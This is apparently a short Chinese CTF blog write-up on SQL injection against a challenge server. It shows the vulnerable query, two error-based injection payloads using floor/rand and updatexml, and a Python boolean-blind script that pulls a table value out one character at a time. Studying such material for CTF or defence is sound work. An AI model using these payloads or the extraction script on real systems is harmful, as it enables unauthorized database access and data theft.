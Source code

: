 ```yaml
---
layout: blog
title: slq injection
date: 2019年4月25日10:32:28
tags: CTF sqli
categories: CTF
---
```


# sqli injection

[注入点](http://202.121.178.79:40003/error/index.php)：
```sql
$sql = "SELECT whatsup FROM error WHERE id='$id' LIMIT 1";
```
<!--more-->
使用方法
## 利用方法
![sqli](https://s4.51cto.com/wyfs02/M00/8C/C3/wKiom1h3ItWCTQzdAAEIxiBGIp0244.png)
```sql
1' and (1,2) in (SELECT count(*), concat(0x3a,(select whatsup from error),floor(rand(0)*2)) name FROM information_schema.tables group by name); --+
```
```sql
1' and updatexml(1, mid(concat(0x3a, (select whatsup from error)), 3, 32),1);--+
``` 

```python
import requests


def get_flag():
    for i in range(1, 64):
        for j in range(33, 127):
            url = 'http://202.121.178.79:40003/bool/index.php?user=1&pass=1\'or ascii(mid((select whatsup from `bool`),' + str(
                i) + ',1))=' + str(j) + ' --+'
            response = requests.get(url, timeout=5)
            if b'something' not in response.content:
                print(chr(j), end='')
                break


if __name__ == '__main__':
    get_flag()
    # x = str(48)
    # print(x)
    # url = 'http://202.121.178.79:40003/bool/index.php?user=1&pass=1\'or ascii(mid((select whatsup from `bool`),' + str(
    #     1) + ',1))=' + x + ' --+'
    # response = requests.get(url, timeout=5)
    # print(response.content)
```



